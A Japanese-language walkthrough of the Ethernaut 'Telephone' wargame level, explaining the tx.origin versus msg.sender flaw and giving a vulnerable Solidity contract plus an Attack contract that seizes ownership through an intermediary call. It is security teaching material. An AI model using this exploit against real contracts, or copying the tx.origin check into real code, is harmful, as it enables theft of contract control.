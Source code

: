 ## Ethernaut 4. Telephone

目標は、スマートコントラクトの所有者になることです。
- `Telephone`スマートコントラクトでは、`tx.origin` からのトランザクションでない場合、オーナーになる仕組みがあります。
- トランザクションの発生元を示すときに、`tx.origin` または `msg.sender` を使用するかどうかは問題です。
- `tx.origin` 変数は、トランザクションを開始した元の外部アカウントを参照しますが、`msg.sender` はユーザーから直接のトランザクションです。

<br/>
<p align="center">
<img src="./images/Telephone.png" width="900" alt="Ethernaut Telephone">
</p>
<br/>


- 外部のコントラクトから `changeOwner()` を呼び出すだけで、（元の呼び出しと同じアドレスで呼び出さない限り）オーナーを変更できます。

** 下記のTelephoneのアドレスを変更して　**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract Attack {
    Telephone public telephone =
        Telephone(0xE6Ace0cC5797Ad1E332448f4FC44E2231046D1e7);

    function changeOwner(address _owner) public {
        telephone.changeOwner(_owner);
    }
}
```